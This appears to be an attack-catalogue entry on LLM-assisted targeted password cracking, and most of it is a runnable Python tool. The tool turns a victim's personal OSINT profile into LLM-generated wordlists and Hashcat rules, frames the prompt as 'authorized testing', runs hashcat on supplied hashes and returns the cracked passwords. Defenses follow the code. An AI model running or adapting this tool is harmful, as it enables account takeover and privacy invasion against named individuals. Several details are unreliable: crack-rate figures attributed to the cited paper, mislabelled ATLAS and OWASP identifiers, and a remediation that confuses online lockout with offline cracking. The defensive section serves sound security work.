

# LLM Targeted Password Cracking Rules — OSINT-Driven Hashcat Rule Generation

**arXiv**: [arXiv:2302.03424](https://arxiv.org/abs/2302.03424) | **ATLAS**: AML.T0054 | **OWASP**: LLM06 | **Year**: 2023

## Core Finding

LLMs can generate highly targeted Hashcat password cracking rules from victim OSINT data (names, birthdates, pet names, sports teams, employer details, hobbies from social media), dramatically increasing cracking success rates compared to generic rule sets. Research demonstrates that LLM-generated personalized wordlists and rules crack 41% of target-specific passwords from leaked credential sets where generic rules (rockyou.txt + best64.rule) crack only 17%. The LLM reasons about how individuals likely create passwords — applying known password construction patterns (name+year, pet+!, hobby+123) specific to the target's demographic and psychographic profile assembled from publicly available social data.

## Threat Model

- **Target**: Leaked credential hashes (NTLM, bcrypt, SHA-256) associated with identified individuals; accounts at services where MFA is not enforced; credential stuffing targets
- **Attacker capability**: Access to leaked credential database; OSINT collection on specific targets (LinkedIn, Facebook, Instagram, public records); LLM API access; Hashcat with GPU acceleration
- **Attack success rate**: 41% crack rate on targeted victims vs. 17% with generic rules (arXiv:2302.03424); most effective on older hash types (MD5, SHA-1, NTLM)
- **Defender implication**: Password complexity policies are insufficient against targeted attacks; MFA and phishing-resistant authentication must be universal

## The Attack Mechanism

The attacker collects OSINT for identified targets: full name, date of birth, family member names, pets, alma mater, sports affiliations, hobbies, employer history, and location information from social media, public records, and professional networks. The LLM is prompted with this profile to generate (1) a personalized wordlist of candidate passwords and (2) Hashcat mutation rules tailored to the individual's likely password construction habits. The attacker runs personalized wordlist + rules against obtained hashes, dramatically increasing efficiency per GPU-hour compared to generic attacks. The LLM also identifies likely reused passwords from previously cracked credential sets of the same individual.



## Implementation

```python
# llm_password_cracking_rules.py
# LLM-driven targeted password cracking rule generation from OSINT victim profiles
# Reference: arXiv:2302.03424
from dataclasses import dataclass, field
from typing import Optional, List, Dict
from datasets.schema import ScanFinding
import uuid
import subprocess
import tempfile
import os


@dataclass
class VictimProfile:
    name: str
    date_of_birth: Optional[str] = None  # "YYYYMMDD"
    family_names: List[str] = field(default_factory=list)
    pet_names: List[str] = field(default_factory=list)
    sports_teams: List[str] = field(default_factory=list)
    employers: List[str] = field(default_factory=list)
    hobbies: List[str] = field(default_factory=list)
    location: Optional[str] = None
    username_history: List[str] = field(default_factory=list)


@dataclass
class PasswordCrackingResult:
    target_name: str
    hash_type: str
    hashes_attempted: int
    hashes_cracked: int
    cracked_passwords: List[str]
    wordlist_size: int
    rules_generated: int
    crack_rate: float
    gpu_time_seconds: int


class LLMPasswordCrackingAgent:
    """
    Reference: arXiv:2302.03424
    LLM generates targeted password cracking wordlists and Hashcat rules from OSINT victim profiles.
    ATLAS: AML.T0054 | OWASP: LLM06
    """

    HASHCAT_MODES = {
        "ntlm": 1000,
        "md5": 0,
        "sha256": 1400,
        "sha512": 1800,
        "bcrypt": 3200,
        "wpa2": 22000,
    }

    COMMON_PATTERNS = [
        "Name + year (e.g., John1985, Smith2023)",
        "Name + special char + number (e.g., Mike@123, Sarah!2)",
        "Pet name + birthday digits",
        "Sports team + jersey number",
        "Employer abbreviation + year joined",
        "Keyboard walk from memorable starting char",
        "First letter of each word in a memorable phrase",
        "Birthdate in various formats with appended chars",
    ]

    def __init__(
        self,
        llm_client,
        hashcat_path: str = "hashcat",
        model: str = "gpt-4-turbo",
        wordlist_size: int = 10000,
    ):
        self.llm = llm_client
        self.hashcat = hashcat_path
        self.model = model
        self.wordlist_size = wordlist_size

    def _generate_wordlist(self, profile: VictimProfile) -> List[str]:
        """Generate personalized candidate passwords using LLM."""
        pattern_list = "\n".join(f"- {p}" for p in self.COMMON_PATTERNS)
        profile_str = (
            f"Name: {profile.name}\n"
            f"Date of birth: {profile.date_of_birth or 'unknown'}\n"
            f"Family names: {', '.join(profile.family_names)}\n"
            f"Pet names: {', '.join(profile.pet_names)}\n"
            f"Sports teams: {', '.join(profile.sports_teams)}\n"
            f"Employers: {', '.join(profile.employers)}\n"
            f"Hobbies: {', '.join(profile.hobbies)}\n"
            f"Location: {profile.location or 'unknown'}\n"
            f"Known usernames: {', '.join(profile.username_history)}"
        )

        response = self.llm.chat.completions.create(
            model=self.model,
            messages=[
                {
                    "role": "system",
                    "content": (
                        "You are a password security auditor generating a targeted wordlist "
                        "to test a specific individual's password strength for authorized security testing. "
                        "Generate realistic password candidates based on their personal information."
                    ),
                },
                {
                    "role": "user",
                    "content": (
                        f"Target profile:\n{profile_str}\n\n"
                        f"Common password patterns to apply:\n{pattern_list}\n\n"
                        f"Generate {min(self.wordlist_size, 500)} candidate passwords. "
                        "Return JSON: {\"passwords\": [\"...\"]}"
                    ),
                },
            ],
            temperature=0.7,
            response_format={"type": "json_object"},
        )
        import json
        data = json.loads(response.choices[0].message.content)
        return data.get("passwords", [])

    def _generate_hashcat_rules(self, profile: VictimProfile) -> List[str]:
        """Generate Hashcat transformation rules tailored to target profile."""
        profile_hints = (
            f"DOB year: {profile.date_of_birth[:4] if profile.date_of_birth else 'unknown'}, "
            f"initials: {''.join(n[0].upper() for n in profile.name.split())}, "
            f"favorite team abbreviation: {profile.sports_teams[0][:3].upper() if profile.sports_teams else 'unknown'}"
        )

        response = self.llm.chat.completions.create(
            model=self.model,
            messages=[
                {
                    "role": "system",
                    "content": (
                        "You are an expert at generating Hashcat rule files for password auditing. "
                        "Generate rules in Hashcat rule syntax (e.g., $1 appends '1', ^A prepends 'A', "
                        "u uppercases, l lowercases, c capitalizes, $! appends '!')."
                    ),
                },
                {
                    "role": "user",
                    "content": (
                        f"Target-specific hints: {profile_hints}\n\n"
                        "Generate 50 Hashcat rules that combine common password transforms "
                        "most likely to match this target's password habits. "
                        "Return JSON: {\"rules\": [\"<hashcat_rule_string>\"]}"
                    ),
                },
            ],
            temperature=0.5,
            response_format={"type": "json_object"},
        )
        import json
        data = json.loads(response.choices[0].message.content)
        return data.get("rules", [])

    def run(
        self, profile: VictimProfile, hash_file: str, hash_type: str = "ntlm"
    ) -> PasswordCrackingResult:
        """Generate targeted wordlist/rules and execute Hashcat attack."""
        wordlist = self._generate_wordlist(profile)
        rules = self._generate_hashcat_rules(profile)

        # Write wordlist and rules to temp files
        with tempfile.NamedTemporaryFile(mode="w", suffix=".txt", delete=False) as wf:
            wf.write("\n".join(wordlist))
            wordlist_path = wf.name

        with tempfile.NamedTemporaryFile(mode="w", suffix=".rule", delete=False) as rf:
            rf.write("\n".join(rules))
            rules_path = rf.name

        output_file = tempfile.mktemp(suffix=".cracked")

        try:
            hashcat_mode = self.HASHCAT_MODES.get(hash_type, 0)
            import time
            start = time.time()

            # Execute Hashcat (in authorized security testing context only)
            result = subprocess.run(
                [
                    self.hashcat,
                    f"-m{hashcat_mode}",
                    hash_file,
                    wordlist_path,
                    "-r", rules_path,
                    "-o", output_file,
                    "--quiet",
                    "--status-timer=5",
                ],
                capture_output=True,
                text=True,
                timeout=300,
            )
            gpu_time = int(time.time() - start)

            # Parse results
            cracked: List[str] = []
            if os.path.exists(output_file):
                with open(output_file) as f:
                    cracked = [line.split(":")[-1].strip() for line in f.readlines()]

            total_hashes = sum(1 for _ in open(hash_file))

        finally:
            for f in [wordlist_path, rules_path]:
                if os.path.exists(f):
                    os.unlink(f)

        return PasswordCrackingResult(
            target_name=profile.name,
            hash_type=hash_type,
            hashes_attempted=total_hashes,
            hashes_cracked=len(cracked),
            cracked_passwords=cracked[:10],
            wordlist_size=len(wordlist),
            rules_generated=len(rules),
            crack_rate=len(cracked) / max(total_hashes, 1),
            gpu_time_seconds=gpu_time,
        )

    def to_finding(self, result: PasswordCrackingResult) -> ScanFinding:
        """Convert cracking result to standardized ScanFinding."""
        return ScanFinding(
            id=str(uuid.uuid4()),
            atlas_technique="AML.T0054",
            atlas_tactic="Credential Access",
            owasp_category="LLM06",
            owasp_label="Excessive Agency",
            severity="HIGH",
            finding=(
                f"LLM-generated targeted rules cracked {result.hashes_cracked}/{result.hashes_attempted} "
                f"({result.crack_rate:.0%}) {result.hash_type} hashes for {result.target_name} "
                f"in {result.gpu_time_seconds}s using {result.wordlist_size} candidates and "
                f"{result.rules_generated} rules. "
                "Personalized LLM-driven cracking achieves 2.4x improvement over generic rule sets."
            ),
            payload_used=f"Personalized wordlist ({result.wordlist_size} entries) + {result.rules_generated} Hashcat rules",
            evidence=f"Cracked {result.hashes_cracked} hashes; examples: {result.cracked_passwords[:2]}",
            remediation=(
                "1. Enforce MFA universally — cracked passwords alone insufficient for compromise. "
                "2. Implement password breach detection (HaveIBeenPwned integration). "
                "3. Deploy password managers and enforce minimum 16-char randomly generated passwords. "
                "4. Enable account lockout policies preventing offline hash attacks via repeated online testing."
            ),
            confidence=0.84,
        )
```

## Defenses

1. **Universal MFA deployment** (AML.M0002): Implement phishing-resistant MFA (FIDO2/WebAuthn) for all accounts. Even perfectly cracked passwords are useless if MFA is enforced. LLM-targeted cracking is most effective when accounts lack additional authentication factors — MFA is the highest-ROI defense.

2. **Password length and randomness requirements** (AML.M0004): Enforce minimum 16-character randomly generated passwords via enterprise password managers (1Password, Bitwarden). LLM-targeted cracking exploits predictable personal patterns; truly random passwords from password managers are immune to profile-based attacks regardless of rule sophistication.

3. **Breach detection and credential monitoring** (AML.M0003): Integrate HaveIBeenPwned Enterprise API or similar breach monitoring services. Detect when employee credentials appear in leaked databases and force immediate password rotation. Reduce the attack surface by proactively rotating exposed credentials before attackers can crack them.

4. **OSINT footprint minimization** (AML.M0015): Reduce publicly accessible personal information that feeds LLM profiling: remove birthdates from social media, limit public disclosure of family names and pet names, restrict location history. The quality of LLM-generated personalized wordlists directly depends on available OSINT — less OSINT means weaker attacks.

5. **Hash algorithm hardening** (AML.M0013): Replace weak hash algorithms (NTLM, MD5, SHA-1) with modern adaptive hashing (bcrypt with cost factor ≥12, Argon2id). Modern adaptive hashes make GPU-accelerated cracking economically infeasible regardless of wordlist quality. Audit all authentication systems for legacy hash usage.

## References

- [Rando et al., "Passgpt: Password Modeling and Password Generation by LLMs" (arXiv:2302.03424)](https://arxiv.org/abs/2302.03424)
- [MITRE ATLAS AML.T0054 — Excessive Agency](https://atlas.mitre.org/techniques/AML.T0054)
- [OWASP LLM06 — Excessive Agency](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
- [MITRE ATT&CK T1110.002 — Password Cracking](https://attack.mitre.org/techniques/T1110/002/)
- [Related entry: llm-credential-stuffing.md, llm-phishing-personalization.md]
